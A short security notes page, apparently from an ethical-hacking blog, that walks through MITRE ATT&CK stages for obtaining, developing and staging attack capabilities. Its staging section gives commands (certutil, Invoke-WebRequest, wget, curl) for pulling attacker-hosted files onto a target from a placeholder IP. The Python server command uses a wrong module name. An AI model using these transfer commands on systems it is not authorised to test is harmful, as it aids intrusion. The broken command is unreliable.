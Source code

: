 ```yaml
---
title: Obtain, Develop and Stage Capabilities
categories: [Ethical Hacking Tools,Stage Capabilities]
tags: [stage capabilities (T1608), obtain capabilities (T1588), develop capabilities (T1587), powershell, bash, certutil.exe, python, wget, curl, invoke-webrequest]
comments: true
---
```


# Overview

Obtaining, Developing and Staging capabilities or resources is an integral part of attack Planning and Reconnaissance. Ensuring that capabilities are setup and configured prior to launching an attack on a target and providing various supporting mechanisms across the different attack phases. Capabilities can include tool deployment, server initialization and configuration, malware creation and resource hosting. 

# [Obtaining Capabilities](https://attack.mitre.org/techniques/T1588)

Adversaries may buy and/or steal capabilities that can be used during targeting. Rather than developing their own capabilities in-house, adversaries may purchase, freely download, or steal them. Activities may include the acquisition of malware, software (including licenses), exploits, certificates, and information relating to vulnerabilities. Adversaries may obtain capabilities to support their operations throughout numerous phases of the adversary lifecycle.

## Penetration Testing Suites

There are two main distributions that come pre-packaged with various tools in support of penetration testing activities. A custom environment can also be created to aid in what ever tasks that are planning to be carried out.

[Kali Linux](https://www.kali.org/)
: Kali Linux is an open-source, Debian-based Linux distribution geared towards various information security tasks, such as Penetration Testing, Security Research, Computer Forensics and Reverse Engineering.

[ParrotOS](https://parrotlinux.org/)
: Parrot Security provides a huge arsenal of tools, utilities and libraries that IT and security professionals can use to test and assess the security of their assets in a reliable, compliant and reproducible way. From information gathering to the final report. The Parrot system gets you covered with the most flexible environment.

# [Developing Capabilities](https://attack.mitre.org/techniques/T1587)

Adversaries may build capabilities that can be used during targeting. Rather than purchasing, freely downloading, or stealing capabilities, adversaries may develop their own capabilities in-house. This is the process of identifying development requirements and building solutions such as malware, exploits, and self-signed certificates. Adversaries may develop capabilities to support their operations throughout numerous phases of the adversary lifecycle.

## Malware Development with MSFvenom

### Sources
- [Offensive Security - Metasploit Unleashed (Msfvenom)](https://www.offensive-security.com/metasploit-unleashed/Msfvenom/)

# [Staging Capabilities](https://attack.mitre.org/techniques/T1608)

## Hosting Resources via a Python HTTP Server

Python is able to be used to host a HTTP web server in order to serve resources that can be downloaded remotely via a target system.

1. Create a local folder to host files and resources
2. Open a terminal windows and navigate to the previously created directory
3. Establish a web server using python via the following command, replace `%PORT%` with the desired port to host the server on.

    ```bash
    python3 -m simpleHTTPServer %PORT%
    ```
    {: .nolineno }

### Downloading Hosted Resources

There are various ways to download the resources on a target host via the aforementioned Python HTTP Server. Some of the more common and easier methods are below

**Windows**
1. Certutil.exe

    ```powershell
    certutil.exe -urlcache -f http://%IPADDRESS%:%PORT%/%RESOURCE% %OUTPUT%
    ```
    {: .nolineno }

2. Invoke-WebRequest (Wget)

    ```powershell
    Invoke-WebRequest -Method Get -Url http://%IPADDRESS%:%PORT%/%RESOURCE% -OutFile %OUTPUT%
    ```
    {: .nolineno }

**Linux**
1. Wget

    ```bash
    wget -O %OUTPUT% http://%IPADDRESS%:%PORT%/%RESOURCE%
    ```
    {: .nolineno }

2. Curl

    ```bash
    curl -o %OUTPUT% http://%IPADDRESS%:%PORT%/%RESOURCE%
    ```
    {: .nolineno }